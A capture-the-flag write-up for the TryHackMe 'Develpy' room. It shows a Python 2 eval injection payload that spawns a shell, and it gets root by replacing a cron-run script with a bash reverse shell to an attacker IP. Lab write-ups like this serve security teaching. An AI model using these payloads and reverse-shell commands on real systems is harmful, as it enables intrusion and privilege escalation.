 # Develpy

**Room link:** https://tryhackme.com/room/bsidesgtdevelpy

1. `nmap` reveals SSH on port 22 and an unknown TCP service on port 10000.

2. Let us connect to the mysterious service.

```
$ nc $TARGET_IP 10000

        Private 0days

 Please enther number of exploits to send??: hello
Traceback (most recent call last):
  File "./exploit.py", line 6, in <module>
    num_exploits = int(input(' Please enther number of exploits to send??: '))
  File "<string>", line 1, in <module>
NameError: name 'hello' is not defined
```

The service running there is written in Python and calls the `input()` function. In Python 2, [`input()`](https://docs.python.org/2.7/library/functions.html#input) is equivalent to `eval(raw_input())` which insecurely evaluates the input given as an expression.

3. Assuming this is Python 2, let us inject a poisoned payload `__import__('os').system('bash')` (as `eval()` requires an expression, we use the [`__import__()`](https://docs.python.org/2.7/library/functions.html#__import__) function instead of the `import` statement) to spawn a shell.

```
$ nc $TARGET_IP 10000

        Private 0days

 Please enther number of exploits to send??: __import__('os').system('bash')
bash: cannot set terminal process group (750): Inappropriate ioctl for device
bash: no job control in this shell
king@ubuntu:~$ id
uid=1000(king) gid=1000(king) groups=1000(king),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare)
```

Let us upgrade and pick the **user flag**.

```
king@ubuntu:~$ python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
$ stty raw -echo; fg
king@ubuntu:~$ ls -lh
total 284K
-rwxrwxrwx 1 king king 266K Aug 27  2019 credentials.png
-rwxrwxrwx 1 king king  408 Aug 25  2019 exploit.py
-rw-r--r-- 1 root root   32 Aug 25  2019 root.sh
-rw-rw-r-- 1 king king  139 Aug 25  2019 run.sh
-rw-rw-r-- 1 king king   33 Aug 27  2019 user.txt
king@ubuntu:~$ cat user.txt
**REDACTED**
```

4. `exploit.py` contains the code of this insecure service that we have used to break in and `run.sh` is used to plug it on port 10000 using `socat`. We guess this must be started through `cron` jobs.

```
king@ubuntu:~$ cat /etc/crontab 
...
*  *    * * *   king    cd /home/king/ && bash run.sh
*  *    * * *   root    cd /home/king/ && bash root.sh
*  *    * * *   root    cd /root/company && bash run.sh
#
```

Indeed, and we discover by the way that `root` runs `root.sh` in `king`'s home. We cannot edit this script, but we can delete and replace it by a reverse shell.

```
king@ubuntu:~$ rm -f root.sh 
king@ubuntu:~$ echo 'bash -i >& /dev/tcp/10.9.***.***/4444 0>&1' > root.sh
```

Wait a minute to gain access and grab the **root flag**.

```
$ nc -lnp 4444
bash: cannot set terminal process group (15967): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:~# cat root.txt
cat root.txt
**REDACTED**
```

## Bonus

At step 3, we could notice the file `credentials.png`. Let us bring it back to our local machine (e.g. using `nc`) and investigate.

```
$ exiftool credentials.png
ExifTool Version Number         : 12.05
File Name                       : credentials.png
...
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
...
Artist                          : Mondrian
Copyright                       : Mondrian
...
```

Note that some image viewers have difficulties opening it, it might be slightly corrupted or improperly formatted (we opened it using Firefox and took a screenshot to extract a proper version).

As hinted by the meta data, it is a [Piet](https://www.dangermouse.net/esoteric/piet.html) program. Using an [online interpreter](http://www.bertnase.de/npiet/npiet-execute.php), we discover it is an infinite loop outputting `king`'s credentials. This allows to log in as `king` through SSH, even though we did not really need this...
